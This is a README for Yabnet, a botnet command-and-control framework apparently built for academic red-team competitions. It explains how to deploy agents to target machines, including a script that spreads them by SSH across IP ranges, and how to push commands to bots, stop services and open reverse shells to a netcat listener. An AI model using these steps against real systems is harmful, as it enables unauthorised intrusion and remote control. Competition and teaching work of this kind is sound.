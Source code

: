 # Yabnet
Yet Another Botnet, PoC created for educational purposes only.
Yabnet is a HTTP based C2 server and agent that was designed, created, and intended to be used in an academic Attack/Defense competition environment. 

Yabnet server is written in Python3++ Flask, deployed in docker. Yabnet agent is written in Golang.

From setting up the server, freezing the agent, and distributing the agent to the target machine, yabnet aims to work out-of-the-box. That way, the red teamers could focus on more important stuffs, such as persistence. 

## Disclaimer
Yabnet is a proof of concept tool which was only created for educational purposes in classroom and cybersecurity related competitions. This tool is not created, nor is good enough for any real world usage. I do not condone use of this tool anything other than educational purposes. Using any of the files of yabnet in/against a system that you do not own is illegal, and you will get caught.

-----------

## Under Construction - TODO 

**Yabnet is currently under construction.**
- [x] Dockerize server 
- [x] Create agent in `golang`, instead of using python 
- [x] Support windows for agent 
- [x] Clean up debugging codes in all files 
- [x] Enhance README documentation and usage
- [ ] Finalize and structure all in-code comments  
- [ ] Support communicating with PWNBOARD 

-----------

## Installation 

**Yabnet requires python3.7++, GOLANG, curl and docker**

**Due to laziness, yabnet currently requires to be installed in the /opt directory.**

### Server setup - Docker
```
cd /opt/yabnet/server
<Edit the "ProdConfig" class in `config.py` file to your liking>

docker build -t yabnet .
docker run -p <ip>:<port>:<port> yabnet

```

### Agent setup - Golang 

**Generating Agent through master console**
```
Yabnet>> generate -i <serverip> -p <serverport> -f 
Yabnet>> generate -i 192.168.204.153 -p 5000 -f -w   // -w is for Windows
```

**Transfer the agent file** 

Transfer `/opt/yabnet/agent/agent` or `/opt/yabnet/agent/agent.exe` to the target machine and run it. Feel free to change the name of the executable. 

### Master setup

Use the credential that was passed through the `docker run` command for the server. 

```
python3 /opt/yabnet/master/master.py
Yabnet>> login -r localhost -u <user> -p <password>
Yabnet>> list

# Default credentials is admin:password
# By the way, all master console commands have help flag.
Yabnet>> push -h 
``` 


## Components 

**Server and Agent**

Server = Python flask application inside Docker container 

Agent = Golang based static executable 

Master = Python console application for interacting with the server 

**Utility scripts** - In Progress 

`/yabnet/agent/competition_deployer.py` = Python script which helps to distribute and drops agent file to specific range of IP addresses via SSH


## Operation 

The master console has various commands that can be used for controlling the bots. 

**All commands have `-h` help flag**

| Command | Description | Examples | 
| --- | --- | --- |
| login | Login to the server as a master | `login -r 10.0.0.1:443 -u admin -p password` |
| list | List all currently registered bots | `list` |
| push | Push a command to bot(s) | `push -t <botid>,<botid> -c "cat /etc/passwd | grep backdoor"` | 
| download | Command a bot to download a file from the server | `download -t <botid> -f test.txt -d c:\users\administrator\a.txt` | 
| reverse | Command a bot to start a reverse shell back to server | `reverse -t <botid> -p <server_listening_port>` | 
| broadcast | Push a command to entire bots | `broadcast -c "systemctl stop ssh"` | 
| cleanup | Remove all staged commands for all bots | `cleanup` | 
| help, ? | List all possible commands | `help` | 

**Notes** 
1. Specifying multiple targets with `,` comma separator is possible. 

`ex) push -t 1,2,3,4 -c "systemctl stop apache2"`


2. Reverse shell command requires the master to open a new console and setup a netcat listener. 

`ex) reverse -t 11 -p 31337` 

`ex) nc -lvnp 31337         // And then for the reverse shell from 10.0.3.4` 

3. The server is hosting files in `/opt/yabnet/server/uploads/` directory.

4. All commands have `-h` help flag available.

## Demo
<insert youtubelink here>

## Special Thanks 
[NotoriousRebel](https://github.com/NotoriousRebel) - "Every red teamer should create their own C2"
